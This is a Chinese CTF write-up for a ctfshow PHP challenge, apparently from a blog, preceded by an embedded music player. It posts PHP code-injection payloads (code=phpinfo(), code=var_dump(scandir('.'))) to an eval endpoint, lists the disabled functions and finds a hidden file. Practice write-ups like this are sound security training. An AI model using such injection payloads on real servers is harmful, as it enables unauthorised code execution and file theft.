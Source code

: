 ```yaml
---
title: ctfshow-大赛原题（未完）
id: ctfshow-大赛原题（未完）
---
```




<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width="330" height="86" src="//music.163.com/outchain/player?type=2&id=1909955412&auto=0&height=66"></iframe>

```
# 上面播放器的代码如下（仅网易云外链链接，其他播放器请自行百度）
<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width="330" height="86" src="//music.163.com/outchain/player?type=2&id=1909955412&auto=0&height=66"></iframe>
# width(宽度) ; height(高度)
# type = 歌曲(1) | 歌单(2) | 电台(3)
# id = 歌曲ID号
# auto = 自动播放(1) | 手动播放(0)
```



## 680-国赛某题

```
post code to run!
```

那么post传一个code试试：

```
code=phpinfo();
```

```
disable_functions ban掉了这些：
assert,system,passthru,exec,pcntl_exec,shell_exec,popen,proc_open,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstoped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,fopen,file_get_contents,fread,file,readfile,opendir,readdir,closedir,rewinddir
```

想到scandir一下当前目录：

```
code=var_dump(scandir('.'));
```

得到

```php
array(4) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(9) "index.php" [3]=> string(21) "secret_you_never_know" }
```

访问secret_you_never_know，下载打开即可

